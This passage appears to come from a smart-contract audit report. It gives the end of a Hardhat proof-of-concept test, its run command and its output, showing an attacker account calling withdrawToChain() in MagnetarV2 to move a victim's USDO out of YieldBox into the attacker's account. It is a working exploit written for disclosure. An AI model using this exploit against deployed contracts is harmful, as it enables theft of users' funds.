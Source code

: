 ```

        borrowPart = await wethUsdoSingularity.userBorrowPart(
            deployer.address,
        );
        expect(borrowPart.gte(borrowAmount)).to.be.true;

        //@audit => Attacker call withdrawToChain() and withdraw assets from the `deployer` account to his own account!

        console.log("User USDO balance BEFORE the attack: ", await usd0.balanceOf(deployer.address));
        console.log("Attacker USDO balance BEFORE the attack: ", await usd0.balanceOf(attacker.address));

        const receiverSplit = attacker.address.split('0x');
        await magnetar.connect(attacker).withdrawToChain(
            yieldBox.address,
            deployer.address,
            usdoAssetId,
            0,
            '0x'.concat(receiverSplit[1].padStart(64, '0')),
            borrowAmount,
            0,
            '0x00',
            attacker.address,
            0,
        );

        console.log("\n\n=============================================================\n\n");
        console.log("User USDO balance AFTER the attack: ", await usd0.balanceOf(deployer.address));
        console.log("Attacker USDO balance AFTER the attack: ", await usd0.balanceOf(attacker.address));

      });
    });

});
```

3. After the 2 previous steps have been completed, everything is ready to run the PoC.
> npx hardhat test magnetar_withdrawToChainAttack_PoC.test.ts
```
  MagnetarV2
    Steal user assets using the withdrawTo() function
User USDO balance BEFORE the attack:  BigNumber { value: "0" }
Attacker USDO balance BEFORE the attack:  BigNumber { value: "0" }

=============================================================

User USDO balance AFTER the attack:  BigNumber { value: "0" }
Attacker USDO balance AFTER the attack:  BigNumber { value: "100000000000000000" }
      ✔ Attacker will steal user assets in YieldBox using the withdrawTo (14395ms)
```
